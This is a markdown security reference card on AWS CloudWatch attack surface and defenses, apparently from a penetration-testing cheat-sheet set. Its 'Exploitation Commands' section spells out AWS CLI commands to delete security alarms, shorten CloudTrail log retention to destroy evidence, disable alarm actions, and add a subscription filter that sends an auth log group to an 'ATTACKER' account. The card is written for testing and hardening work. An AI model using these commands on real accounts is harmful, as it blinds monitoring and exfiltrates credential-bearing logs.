

#  AWS CloudWatch Security



> **Category**: MONITORING

CloudWatch is AWS's monitoring service collecting logs, metrics, and events from all services. Attackers target CloudWatch to disable detection, tamper with evidence, and extract sensitive information from logs.

## Quick Stats

| Detection Evasion Risk | Services Monitored | Log Data Volume | Alert Capability |
| --- | --- | --- | --- |
| **HIGH** | **100+** | **PB+** | **Real-time** |

## Service Overview

### Logs & Metrics

CloudWatch Logs collects log data from Lambda, ECS, EC2, API Gateway, and custom sources. Metric filters transform log patterns into numeric metrics. CloudWatch Insights enables SQL-like queries across log groups for analysis.

> Attack note: Logs frequently contain leaked credentials, API keys, database connection strings, and internal URLs

### Alarms & Dashboards

Alarms trigger SNS notifications and auto-scaling actions based on metric thresholds. Composite alarms combine multiple alarms with AND/OR logic. Dashboards visualize metrics and can be shared publicly if misconfigured.

> Attack note: Deleting or modifying alarms before an attack eliminates the primary detection mechanism for most organizations

## Security Risk Assessment

`████████░░` **7.5/10** (HIGH)

CloudWatch is the primary detection mechanism for many organizations. Attackers who can modify alarms, delete logs, or disable monitoring gain significant evasion capabilities.

## ⚔️ Attack Vectors

### Monitoring Attacks

- Alarm deletion/modification
- Log group deletion
- Retention policy reduction
- Metric filter manipulation
- Subscription filter hijacking

### Data Mining

- Insights queries for credentials in logs
- Log stream searches for API keys
- Metric data for usage pattern analysis
- Dashboard enumeration for architecture intel
- Cross-account log group access

## ⚠️ Misconfigurations

### Log Group Issues

- No log retention configured (infinite cost)
- Missing KMS encryption on log groups
- Overly permissive log group resource policies
- No cross-account log backup destination
- Application secrets logged in plaintext

### Alarm Issues

- Alarms without SNS notification actions
- Missing critical metric filters for security
- No alarm on alarm-modification events
- Composite alarms with OR logic (easily evaded)
- Auto-scaling triggers without guard rails

## 🔍 Enumeration

**List Log Groups**
```bash
aws logs describe-log-groups
```

**List Alarms**
```bash
aws cloudwatch describe-alarms
```

**List Metric Filters**
```bash
aws logs describe-metric-filters \\
  --log-group-name /aws/lambda/myfunction
```

**List Dashboards**
```bash
aws cloudwatch list-dashboards
```

**Get Retention Policies**
```bash
aws logs describe-log-groups \\
  --query 'logGroups[*].[logGroupName,retentionInDays]'
```

## 📈 Privilege Escalation

### Log Data Exploitation

- Extract credentials from application logs
- Find API keys in Lambda execution logs
- Discover database connection strings in errors
- Identify internal endpoints from log entries
- Mine session tokens from access logs

### Insights Query Attacks

- Query CloudTrail logs for IAM key usage
- Search for AssumeRole patterns to find targets
- Find error messages revealing infrastructure
- Identify high-privilege operations by principal
- Discover unmonitored API calls

> **Key insight:** CloudWatch Logs Insights can query across 50 log groups simultaneously - one query can expose credentials across all Lambda functions.

## 🔗 Persistence

### Detection Evasion

- Delete security-critical alarms before attack
- Reduce log retention to 1 day (evidence destroyed)
- Modify metric filters to suppress alerts
- Remove SNS actions from existing alarms
- Set alarm state to OK manually

### Ongoing Access

- Add subscription filter to exfil logs to attacker
- Create log destination to attacker account
- Inject misleading log entries for cover
- Modify dashboards to hide attack indicators
- Create false positive noise to drown real alerts

## 🛡️ Detection

### CloudTrail Events

- DeleteLogGroup
- DeleteAlarms
- PutRetentionPolicy (short retention)
- DeleteSubscriptionFilter
- DisableAlarmActions

### Indicators of Compromise

- Alarm deletions from unknown principals
- Retention policy changes to short periods
- New subscription filters to external destinations
- SetAlarmState calls (manual override)
- Log group deletions during incident

## Exploitation Commands

**Search Logs for Credentials**
```bash

```

**Insights Query - Find API Keys**
```bash

```

**Delete Security Alarms**
```bash
aws cloudwatch delete-alarms \\
  --alarm-names "UnauthorizedAPICalls" \\
  "RootAccountUsage" "IAMPolicyChanges"
```

**Reduce Retention (Destroy Evidence)**
```bash
aws logs put-retention-policy \\
  --log-group-name /aws/cloudtrail/logs \\
  --retention-in-days 1
```

**Disable Alarm Actions**
```bash
aws cloudwatch disable-alarm-actions \\
  --alarm-names "SecurityAlarm" "GuardDutyAlert"
```

**Add Exfil Subscription Filter**
```bash
aws logs put-subscription-filter \\
  --log-group-name /aws/lambda/auth \\
  --filter-name exfil \\
  --filter-pattern "" \\
  --destination-arn arn:aws:lambda:us-east-1:ATTACKER:function:exfil
```

## Policy Examples

### ❌ Dangerous - Full Logs & Alarms Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["logs:*", "cloudwatch:*"],
    "Resource": "*"
  }]
}
```

*Full access enables log tampering, alarm deletion, and evidence destruction*

### ✅ Secure - Read-Only Monitoring

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "logs:GetLogEvents",
      "logs:FilterLogEvents",
      "logs:DescribeLogGroups",
      "cloudwatch:GetMetricData",
      "cloudwatch:DescribeAlarms"
    ],
    "Resource": "*"
  }]
}
```

*Read-only access to logs and metrics without modification capability*

### ❌ Dangerous - Delete Permissions

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "logs:DeleteLogGroup",
      "logs:PutRetentionPolicy",
      "cloudwatch:DeleteAlarms"
    ],
    "Resource": "*"
  }]
}
```

*Destructive permissions enable complete evidence destruction and evasion*

### ✅ Secure - Deny Log Destruction

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Action": [
      "logs:DeleteLogGroup",
      "logs:DeleteLogStream",
      "logs:PutRetentionPolicy",
      "cloudwatch:DeleteAlarms",
      "cloudwatch:DisableAlarmActions"
    ],
    "Resource": "*",
    "Condition": {
      "StringNotEquals": {
        "aws:PrincipalArn": "arn:aws:iam::*:role/SecurityAdmin"
      }
    }
  }]
}
```

*SCP-style deny on destructive actions except for security admin role*

## Defense Recommendations

### 🔄 Cross-Account Log Export

Export logs to a security account that attackers in the source account cannot access.

```bash
aws logs put-destination \\
  --destination-name security-backup \\
  --target-arn arn:aws:kinesis:us-east-1:SECURITY_ACCT:stream/logs \\
  --role-arn arn:aws:iam::SECURITY_ACCT:role/LogExport
```

### 🔐 KMS Encryption

Encrypt log groups with KMS keys that have restricted key policies to prevent unauthorized access.

```bash
aws logs associate-kms-key \\
  --log-group-name /aws/cloudtrail/logs \\
  --kms-key-id arn:aws:kms:us-east-1:*:key/xxx
```

### 🔒 SCP - Protect Log Groups

Use SCPs to prevent retention policy changes and log group deletion across all accounts.

```bash
"Effect": "Deny",
"Action": ["logs:DeleteLogGroup","logs:PutRetentionPolicy"],
"Resource": "arn:aws:logs:*:*:log-group:/aws/cloudtrail/*"
```

### 🔔 Alarm on Alarm Changes

Create a meta-alarm that triggers when security alarms are modified or deleted.

```bash
aws cloudwatch put-metric-alarm \\
  --alarm-name AlarmTamperDetection \\
  --metric-name DeleteAlarms \\
  --namespace CloudTrailMetrics \\
  --threshold 0 --comparison-operator GreaterThanThreshold
```

### 📋 Log Group Resource Policies

Protect critical log groups with resource-based policies to prevent cross-account tampering.

```bash
aws logs put-resource-policy \\
  --policy-name ProtectSecurityLogs \\
  --policy-document file://log-policy.json
```

### 💾 S3 Export with Object Lock

Export logs to S3 with object lock for immutable, tamper-proof storage.

```bash
aws s3api put-object-lock-configuration \\
  --bucket security-logs \\
  --object-lock-configuration '{"ObjectLockEnabled":"Enabled",
  "Rule":{"DefaultRetention":{"Mode":"COMPLIANCE","Days":365}}}'
```

---

*AWS CloudWatch Security Card*

*Always obtain proper authorization before testing*
